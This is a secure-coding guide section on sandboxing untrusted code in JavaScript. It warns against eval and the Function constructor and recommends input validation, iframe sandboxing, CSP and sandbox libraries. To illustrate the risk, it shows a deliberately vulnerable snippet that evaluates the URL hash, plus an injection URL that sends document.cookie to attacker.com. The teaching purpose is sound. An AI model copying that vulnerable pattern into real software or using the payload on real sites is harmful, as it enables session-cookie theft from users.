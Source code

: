 Sandboxing
==========

Especially in the [Output Encoding][1] and [Database Security][2] sections, you
were told that user input should always be handled as untrusted and unsafe data.
Moreover, user input data should never be subject of string concatenation to
computed, for examples, database queries.

You'll find more General Coding Practices on [OWASP SCP - Quick Reference
Guide][3] which we will address together:

* "_Do not pass user supplied data to any dynamic execution function_"
* "_Restrict users from generating new code or altering existing code_"

Let's be brief - `eval` is evil (or at least, it is when misunderstood)!

[`eval`][4] is a JavaScript function which, generally speaking, that evaluates a
given argument (`String`) as source code, allowing it to execute in the runtime
context.

This would be the same as to dynamically adding a new `<script>` HTML element to
the page's body.

Note - evaluating arbitrary user input in your application's runtime context
**SHOULD NEVER** be done.

`eval` is not the only way to evaluate arbitrary `String`s, you may want to have
a look at [Function constructor][5]. We'll go with the simple examples

```javascript
const myAlert = Function('alert("' + document.location.hash.substring(1) + '")');
myAlert();
```

So, let's visit and "share sorrows"

```
https://example.com/#sorry");(new Image).src="//attacker.com/?cookie="+document.cookie;("
```

Rule of thumb and furthermore, ensure that user input (as other data sources may
cause you troubles): [identify and classify your data sources as "trusted" and
"untrusted"][6] and **ALWAYS** (but **ALWAYS) perform [input validation][7],
rejecting the invalid input.

If you really need to execute untrusted data, please use a sandbox.

On the client-side, the best you can do is load the insecure content in a
`<iframe>` HTML element with the attribute `sandbox` set. You can [find the
specification here][8]. Whenever possible, provide a [Content Security
Policy][9].

On the server-side, you have a few more options.
Have a look at these projects:

* [gf3/sanbox][10]
* [patriksimek/vm2][11]
* [PhantomJS][12] (_a headless WebKit scriptable with a JavaScript API._)

**Note** that [Node.js VM module][13] is not intended to execute untrusted code.

[1]: ../output-encoding/README.md
[2]: ../database-security/README.md
[3]: https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide
[4]: http://www.ecma-international.org/ecma-262/6.0/#sec-eval-x
[5]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function
[6]: ../input-validation/data-sources.md
[7]: ../input-validation/README.md
[8]: https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox
[9]: ./content-security-policy.md
[10]: https://github.com/gf3/sandbox
[11]: https://github.com/patriksimek/vm2
[12]: http://phantomjs.org/
[13]: https://nodejs.org/dist/latest-v6.x/docs/api/vm.html
